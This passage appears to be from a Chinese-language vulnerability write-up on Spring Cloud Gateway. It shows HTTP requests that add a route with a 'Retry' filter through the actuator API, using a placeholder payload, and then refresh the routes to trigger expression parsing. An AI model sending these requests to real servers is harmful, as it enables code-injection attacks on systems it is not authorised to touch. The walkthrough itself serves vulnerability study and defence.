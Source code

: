 ```powershell
class org.springframework.cloud.gateway.filter.factory.SetRequestHostHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RewriteResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RewriteLocationResponseHeaderGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SetStatusGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.SaveSessionGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.StripPrefixGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RequestHeaderToRequestUriGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RequestSizeGatewayFilterFactory
class org.springframework.cloud.gateway.filter.factory.RequestHeaderSizeGatewayFilterFactory
```

<br/>

可以随意选择其中的一个`GatewayFilterFactory`，比如利用`Retry`来修改请求包：

```powershell
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 181

{
  "id": "1234567",
  "filters": [{
    "name": "Retry",
    "args": {
"a":"payload"
   }
  }],
  "uri": "http://localhost"
}
```

<br/>

请求后显示路由创建成功。可以通过refresh来生效：

```json
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
```

<br/>

成功触发表达式解析：
